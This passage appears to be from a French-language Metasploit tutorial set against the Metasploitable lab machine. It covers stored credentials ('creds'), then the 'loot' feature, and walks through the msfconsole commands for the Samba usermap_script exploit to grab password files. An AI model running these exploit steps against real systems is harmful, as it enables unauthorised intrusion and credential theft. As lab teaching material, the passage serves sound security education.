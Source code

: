     Les informations se retrouvent dans le contenant creds :

    `creds`

    ![06-msfconsole-creds](../images/2020/06/06-msfconsole-creds.png)

## Les trésors (_loot_)

Metasploit conserve aussi tous les _loot_ qui sont découverts par ses modules.

Essayons d'aller chercher les fichiers de mots de passe de Metasploitable :

`use exploit/multi/samba/usermap_script`

`show options`

`hosts -R`

![06-msfconsole-usermap_script](../images/2020/06/06-msfconsole-usermap-script.png)

`exploit`
